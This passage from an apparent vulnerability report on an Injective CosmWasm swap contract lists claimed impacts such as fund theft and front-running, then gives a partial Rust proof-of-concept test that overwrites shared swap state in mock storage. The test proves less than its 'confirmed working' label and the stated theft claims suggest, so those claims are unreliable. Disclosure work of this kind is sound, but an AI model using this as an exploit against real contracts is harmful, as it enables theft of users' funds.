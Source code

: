 ### Specific Losses
1. **Immediate Theft**: Attacker can redirect victim's swap output to their address
2. **State Corruption**: Failed swaps leave dirty state that affects subsequent users
3. **Multi-Step Swap Interruption**: Complex swaps can be hijacked mid-execution
4. **MEV Exploitation**: Front-running opportunities for guaranteed theft

### Secondary Impacts
- Complete loss of user trust
- Protocol shutdown required
- Legal and regulatory consequences
- Reputational damage to Injective ecosystem

## References

### CosmWasm Documentation
- [CosmWasm Storage Semantics](https://cosmwasm.cosmos.network/core/architecture/semantics)
- [Actor Model in CosmWasm](https://cosmwasm.cosmos.network/core/architecture/actor-model)
- [SubMsg and Reply Handling](https://cosmwasm.cosmos.network/core/entrypoints/reply)

### Code References
- State definitions: `/workspace/contracts/swap/src/state.rs` (lines 7-9)
- Swap flow: `/workspace/contracts/swap/src/swap.rs` (lines 99-100, 144, 181, 229-230, 243-245)
- Types: `/workspace/contracts/swap/src/types.rs` (lines 55-80)
- Contract entry: `/workspace/contracts/swap/src/contract.rs` (lines 69-73)

## Proof of Concept

### Executable Test Code
The following test demonstrates the vulnerability (confirmed working):

```rust
#[test]
fn exploit_direct_state_overwrite() {
    let mut deps = mock_dependencies();

    // User A initiates swap with 10,000 USDT
    let user_a_state = CurrentSwapOperation {
        sender_address: Addr::unchecked("user_a"),
        swap_steps: vec![MarketId::new("0x0000...0001").unwrap()],
        swap_quantity_mode: SwapQuantityMode::MinOutputQuantity(FPDecimal::from(100u128)),
        input_funds: Coin::new(10000_000000u128, "usdt"),
        refund: Coin::new(0u128, "usdt"),
    };
    
    SWAP_OPERATION_STATE.save(&mut deps.storage, &user_a_state).unwrap();
    
    // Attacker overwrites state with 1 USDT swap
    let attacker_state = CurrentSwapOperation {
        sender_address: Addr::unchecked("attacker"),
        swap_steps: vec![MarketId::new("0x0000...0002").unwrap()],
        swap_quantity_mode: SwapQuantityMode::MinOutputQuantity(FPDecimal::from(1u128)),
        input_funds: Coin::new(1_000000u128, "usdt"),
        refund: Coin::new(0u128, "usdt"),
    };
    
    SWAP_OPERATION_STATE.save(&mut deps.storage, &attacker_state).unwrap();
    
    // Load state - User A's state is completely gone
    let loaded_state = SWAP_OPERATION_STATE.load(&deps.storage).unwrap();
    assert_eq!(loaded_state.sender_address, Addr::unchecked("attacker"));
    // User A's 10,000 USDT state is lost!
```